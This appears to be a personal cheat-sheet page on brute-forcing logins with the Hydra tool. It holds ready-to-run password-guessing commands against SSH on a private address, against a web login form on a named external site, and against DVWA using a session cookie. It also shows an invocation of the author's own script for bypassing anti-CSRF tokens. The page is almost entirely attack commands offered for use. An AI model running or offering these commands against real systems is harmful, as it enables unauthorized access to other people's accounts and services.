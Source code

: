 [[Brute-Force-Attack]]
## HYDRA
Is a brute force tool  
  
```  
Usage : hydra -l <user> -P <password list> <protocol>://<ip>:<port> -t <threads> -V  


hydra -l root -P /usr/share/wordlists/metasploit/unix \_passwords.txt ssh://10.0.2.6:22 -t 4 -V

```

hydra -l {username} -P {password list path} -s {port} -f {Site Address} http-post-form “{Path to postback page}:{USERNAME\_NAME}=^USER^&{PASSWORD\_NAME}=^PASS^:{failed login text}”

```
hydra -l hydra -P password.lst -s 80 -f www.sillychicken.co.nz http-post-form “/administrator/index.php:usrname=^USER^&pass=^PASS^&submit=Login:Incorrect Username”
```


### HYDRA with PHPSESSID

```
hydra 192.168.0.105 -V -l admin -P ~/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=rname and/or password incorrect:H=Cookie: PHPSESSID=f8ucrbu0qmta4ettc3208gcvnq; security=low" -t 64

```

# My Tool
#### also supports anti-csrf token bypass
```
./anti\_csrf\_brute.py \-P ./password.txt \-u http://192.168.0.112/dvwa/vulnerabilities/brute \-c "PHPSESSID:tj  
j0esrnt64heiqr50hbbpj8s4;security:high;" \-F incorrect \-param "username:admin;password:^PASS^;Login:Login;user\_  
token:^CSRF^"
```
![[Pasted image 20210117153716.png]]